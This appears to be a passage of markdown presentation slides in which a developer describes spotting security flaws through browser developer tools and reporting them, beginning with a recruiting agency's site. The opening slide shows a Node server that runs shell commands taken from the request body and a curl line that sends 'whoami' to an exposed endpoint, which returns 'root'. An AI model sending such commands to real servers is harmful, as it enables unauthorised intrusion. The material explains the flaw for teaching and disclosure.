 ```javascript
    ),
...
```

	**`hostname: "0.0.0.0"`**
	Listen to anyone on the network
	**`o.execAsync`**
	Execute on host system via node shell execute
	**`e.body.command`**
	Execute this command from the request body

	`curl remote.server:1337/run-command --data '{"command": "whoami"}' -H "Content-Type: application/json"`
	`{"stdout":"root"}`


--- 
### How Do I Browse The Internet?
/assets/Clipboard 3.png

I am not the normal person just using my browser as I should. I tend to try to understand what the site or application is doing just out of pure curiosity.
So I tend to have the browser developer tools open that allows me to see what requests a site makes and to which services.

---
### How Does It Get Me In Trouble? 

I often stumble upon vulnerabilities by just looking at this console. My personal ethics then urge me to report this to whoever is responsible, so I have peace of mind and am able to use a site or application without knowing my data or other peoples data are in danger of being exposed.

---
### Why does this matter for this presentation?

I think using real world examples is the best way to learn and explain complicated topics and it will also help me to build a mostly cohesive story.

---
### The Job Search

Back in the end of last year I was looking for a new job and got referred to a recruiting agency by Karim.

As usual I had my developer tools open during registration and while looking at the job offers.

This is when I noticed something off.

---
### The Discovery
/assets/Screenshot 2025-05-21 at 15.23.45 1.png
size: contain

---